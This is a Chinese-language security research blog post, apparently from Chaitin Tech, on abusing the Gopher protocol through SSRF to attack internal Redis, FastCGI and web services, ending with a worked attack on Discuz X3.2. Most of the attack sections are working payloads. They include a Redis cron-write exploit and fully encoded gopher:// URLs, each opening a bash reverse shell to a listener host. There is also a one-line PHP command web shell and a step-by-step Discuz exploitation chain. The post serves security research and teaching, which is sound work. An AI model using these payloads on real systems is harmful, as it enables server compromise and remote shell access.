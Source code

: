 
## 概述
Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。  
Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。  

## 攻击面测试
### 环境
+ IP: 172.19.23.218
+ OS: CentOS 6

根目录下 1.php 内容为：  

    <?php
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $output = curl_exec($ch);
    curl_close($ch);
    ?>

### 攻击内网 Redis
Redis 任意文件写入现在已经成为十分常见的一个漏洞，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议攻击内网中的 Redis，这无疑可以隔山打牛，直杀内网。  
首先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议。常见的 exp 是这样的：  

    redis-cli -h $1 flushall
    echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
    redis-cli -h $1 config set dir /var/spool/cron/
    redis-cli -h $1 config set dbfilename root
    redis-cli -h $1 save

利用这个脚本攻击自身并抓包得到数据流：  
![2016-05-31_14:59:35.jpg](./2016-05-31_14:59:35.jpg)  

改成适配于 Gopher 协议的 URL：  

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

攻击：  
![2016-05-31_14:56:29.jpg](./2016-05-31_14:56:29.jpg)  

### 攻击 FastCGI
一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。  
首先构造 exp：  
![2016-05-31_15:24:35.jpg](./2016-05-31_15:24:35.jpg)  

构造 Gopher 协议的 URL：  

    gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
    
攻击：  
![2016-05-31_15:26:25.jpg](./2016-05-31_15:26:25.jpg)  

### 攻击内网 Vulnerability Web
Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。  
一个只能 127.0.0.1 访问的 exp.php，内容为：  

    <?php system($_POST[e]);?>  
    
利用方式：

    POST /exp.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: curl/7.43.0
    Accept: */*
    Content-Length: 49
    Content-Type: application/x-www-form-urlencoded

    e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261

构造 Gopher 协议的 URL：

    gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null

攻击：  
![2016-05-31_15:19:17.jpg](./2016-05-31_15:19:17.jpg)  

## 攻击实例
### 利用 Discuz SSRF 攻击 FastCGI
Discuz X3.2 存在 SSRF 漏洞，当服务器开启了 Gopher wrapper 时，可以进行一系列的攻击。  
首先根据 phpinfo 确定开启了 Gopher wrapper，且确定 Web 目录、PHP 运行方式为 FastCGI。  
![2016-06-02_10:06:00.jpg](./2016-06-02_10:06:00.jpg)
![2016-06-01_15:09:52.jpg](./2016-06-01_15:09:52.jpg)  
![2016-06-02_10:06:52.jpg](./2016-06-02_10:06:52.jpg)  
测试 Gopher 协议是否可用，请求：  

    http://127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2fgopher.php%3Fa.jpg%5B%2fimg%5D

其中 gopher.php 内容为：

    <?php
    header("Location: gopher://127.0.0.1:2333/_test");
    ?>

监听 2333 端口，访问上述 URL 即可验证：  
![2016-06-02_10:09:42.jpg](./2016-06-02_10:09:42.jpg)  

构造 FastCGI 的 Exp：  

    <?php
    header("Location: gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/127.0.0.1/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00");
    ?>

请求：

    http://127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2f1.php%3Fa.jpg%5B%2fimg%5D  

即可在 2333 端口上收到反弹的 shell：  
![2016-06-02_09:44:25.jpg](./2016-06-02_09:44:25.jpg)  
攻击视频：
    <video style="
                  width: 100%;
                  display: inline-block;
                  "
           controls><source src="./2016-06-02%2010-59-32.mp4" type="video/mp4"></video>

## 系统局限性
经过测试发现 Gopher 的以下几点局限性：  

+ 大部分 PHP 并不会开启 fopen 的 gopher wrapper
+ file\_get\_contents 的 gopher 协议不能 URLencode
+ file\_get\_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败
+ PHP 的 curl 默认不 follow 302 跳转
+ curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

更多有待补充。  
另外，并不限于 PHP 的 SSRF。当存在 XXE、ffmepg SSRF 等漏洞的时候，也可以进行利用。  

##更多攻击面
基于 TCP Stream 且不做交互的点都可以进行攻击利用，包括但不限于：  

+ HTTP GET/POST
+ Redis
+ Memcache
+ SMTP
+ Telnet
+ 基于一个 TCP 包的 exploit
+ FTP（不能实现上传下载文件，但是在有回显的情况下可用于爆破内网 FTP）  

更多有待补充。

## 参考
+ [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
+ [redis 远程命令执行 exploit (不需要flushall)](http://zone.wooyun.org/content/23858)  
+ [PHP FastCGI 的远程利用](http://zone.wooyun.org/content/1060)  

** 博客内容均为长亭科技安全研究人员编写，转载请在文章开始注明出处。 **